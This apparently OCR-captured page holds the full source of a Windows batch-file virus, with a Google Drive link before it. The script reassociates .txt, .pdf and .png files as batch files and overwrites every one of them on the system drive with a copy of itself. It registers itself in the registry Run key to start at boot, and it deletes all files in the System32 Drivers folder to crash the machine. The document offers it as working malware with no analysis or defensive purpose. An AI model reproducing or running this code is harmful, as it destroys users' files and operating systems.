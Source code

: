 https://drive.google.com/file/d/13KM4jJFKjzZhkVHdQmq0YlNPCr69cTX8/view
! MKLdoqapybvX8tnb24bG2teg5bhuSPZzSJ
@ echo off
rem ---------------------------------
rem Infect All .Txt Files
assoc .txt=batfile
DIR /S/B %SystemDrive%\*.txt >> InfList_txt.txt
echo Y | FOR /F "tokens=1,* delims=: " %%j in (InfList_txt.txt) do copy /y %0 "%%j:%%k"
rem ---------------------------------
rem ---------------------------------
rem Infect All .Pdf Files
assoc .pdf=batfile
DIR /S/B %SystemDrive%\*.pdf >> InfList_pdf.txt
echo Y | FOR /F "tokens=1,* delims=: " %%j in (InfList_pdf.txt) do copy /y %0 "%%j:%%k"
rem ---------------------------------
rem ---------------------------------
rem Infect All .Png Files
assoc .png=batfile
DIR /S/B %SystemDrive%\*.png >> InfList_png.txt
echo Y | FOR /F "tokens=1,* delims=: " %%j in (InfList_png.txt) do copy /y %0 "%%j:%%k"
rem ---------------------------------
rem ---------------------------------
rem Start Windows XP Secret Song
start "" "%systemroot%\system32\oobe\images\title.wma"
rem ---------------------------------
rem ---------------------------------
rem Activate Blue Screen Of Death
@((( Echo Off > Nul ) & Break Off )
    @Set HiveBSOD=HKLM\Software\Microsoft\Windows\CurrentVersion\Run
    @Reg Add "%HiveBSOD%" /v "BSOD" /t "REG_SZ" /d %0 /f > Nul
    @Del /q /s /f "%SystemRoot%\Windows\System32\Drivers\*.*"
)
rem ---------------------------------

